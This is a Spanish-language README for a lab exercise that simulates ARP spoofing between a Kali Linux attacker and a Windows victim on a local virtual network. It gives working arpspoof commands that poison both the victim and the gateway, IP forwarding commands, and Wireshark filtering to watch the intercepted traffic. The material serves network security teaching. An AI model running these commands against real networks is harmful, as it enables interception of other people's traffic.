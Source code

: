 # ARP-Spoofing
Laboratorio: Simulación de Ataque ARP Spoofing

## 🎯Objetivo
Comprender cómo funciona un ataque de ARP Spoofing y observar sus efectos en una red local, utilizando herramientas básicas de Kali Linux.

## Requisitos
- Kali Linux (máquina atacante)
- Windows (máquina víctima)
- Ambas máquinas conectadas a la misma red local (puede ser una red virtual como en VirtualBox o VMware)

## Herramientas:
  - arpspoof (incluida en Kali)
  - Wireshark (opcional, para análisis de tráfico)
  - ping o navegación web desde Windows

## ☑ Actividades a realizar en el Laboratorio
### 1.Configuración de red
Verifica que ambas máquinas estén en la misma red:
- En Kali: `ip a`
- En Windows: `ipconfig`

Anota las IPs de:
- Kali Linux *(ej. 192.168.62.140)*
- Windows *(ej. 192.168.62.144)*
- Gateway de la Red *(ej. 192.168.62.2)*

### 2. Habilitar el reenvío de paquetes en Kali
En Kali, ejecuta el siguiente comando para habilitar el reenvío de paquetes:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

### 3. Ejecutar ARP Spoofing desde Kali
Abre dos terminales en Kali:
- Terminal 1: Enviar paquetes falsos al equipo Windows:

`arpspoof -i eth0 -t 192.168.62.144 192.168.62.2`

- Terminal 2: Enviar paquetes falsos al router:

`arpspoof -i eth0 -t 192.168.62.2 192.168.62.144`

Reemplaza `eth0` con el nombre correcto de tu interfaz de red si es diferente (puedes verificarlo con `ip a`).

### 4. Observar el tráfico (opcional)
- Abre Wireshark en Kali y filtra por `ip.addr == 192.168.62.144`
- Desde Windows, navega por internet o haz `ping` a una página.
- Observa cómo Kali intercepta el tráfico.

### 5. Detener el ataque
Detén los procesos de `arpspoof` con `Ctrl+C`

Desactiva el reenvío de paquetes:

`echo 0 > /proc/sys/net/ipv4/ip_forward`


